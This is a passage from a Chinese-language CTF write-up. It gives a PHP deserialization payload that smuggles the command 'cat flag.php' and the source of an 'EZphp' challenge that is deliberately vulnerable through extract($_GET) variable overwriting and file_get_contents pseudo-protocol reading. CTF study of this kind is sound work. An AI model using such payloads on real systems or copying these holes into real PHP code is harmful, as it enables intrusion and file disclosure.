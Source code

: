 ```
```

```
O:10:"girlfriend":1:{s:1:"a";O:8:"Fxizenta":1:{s:1:"b";O:4:"Need":1:{s:3:"cmd";s:12:"cat flag.php";}}}
```

flag在源码

![image-20221018200857673](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210182008773.png?x-oss-process=hzy)

flag{ctfer_d0nt_need_grilfriend}

## EZphp

> 我得想想怎么才能取而代之

题目如下

```
<?php
include 'flag.php';
extract($_GET);
if (isset($wsf)) {
    $xmm = trim(file_get_contents($zm));
    if ($xmm == $wsf) {
        if (!empty($xlq)) {
            $xw = trim(file_get_contents($fn));
            if ($xlq === $xw) {

                echo "<p>$flag</p>";
            } else {
                echo '<p>no no no </p>';
            }
        } else 'You cant do that!!';
    } else {
        echo 'hacker!!';
    }
} else {
    highlight_file(__FILE__);
}
?>
```

考察了两个地方，第一个是变量覆盖，第二个就是伪协议读取

> extract() 函数从[数组](https://so.csdn.net/so/search?q=数组&spm=1001.2101.3001.7020)中将变量导入到当前的符号表。
>
> 该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。

这道题目是两道原题合到一块了，那两道题目在这

[(68条消息) web8--php函数extract（）、file_get_contents（）、trim（）_line_uc的博客-CSDN博客_php的函数trim(file_get_contents($zm))](https://blog.csdn.net/qq_32642035/article/details/104747801)

